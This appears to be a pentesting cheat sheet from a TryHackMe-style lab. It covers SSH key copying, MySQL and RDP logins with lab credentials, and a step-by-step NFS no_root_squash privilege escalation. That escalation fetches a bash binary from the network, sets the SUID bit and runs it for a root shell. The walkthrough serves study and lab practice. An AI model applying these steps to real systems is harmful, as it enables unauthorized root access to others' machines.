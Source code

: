 ```
ssh-copy-id -i ~/.ssh/id_rsa.pub YOUR_USER_NAME@IP_ADDRESS_OF_THE_SERVER
```
Your public key should be copied at the appropriate folder on the remote server automatically.

```
mysql -h [IP] -u [username] -p
```
Connect to MYSQL server

## Remote Desktop - RDP

```
rdesktop 10.10.180.211 -u THM\Administrator -p Password123
```

remotes into IP

**Then connecting via RDP, use THM\Administrator as the username to specify you want to log in using the user Administrator on the THM domain.**


# NFS Share Reverse Shell

1. step one

    ```
     showmount -e [IP]
    ```
    shows visible NFS shares on that IP 

2. Step Two

    ```
    sudo mount -t nfs IP:share /tmp/mount/ -nolock
    ```
    mounts the share from "IP:share" to the directory "/tmp/mount"

3. Step Three
    Download Bash executable
    ```
    get https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash -P ~/Downloads
    ```
4. Step Four

    ```
    cp ~/Downloads/bash ~/share
    ```
    Copy it to the NFS mount point

5. Step Five

    Change its permissions
    ```
    sudo chmod +s bash
    sudo chmod +x bash
    file should have "-rwsr-sr-x" as permissions
    ```
6. Step Six
    ssh into the machine that now holds the bash executable
    run the executable using
	```
    ./bash -p
    ```
>You should now have a shell as "root"
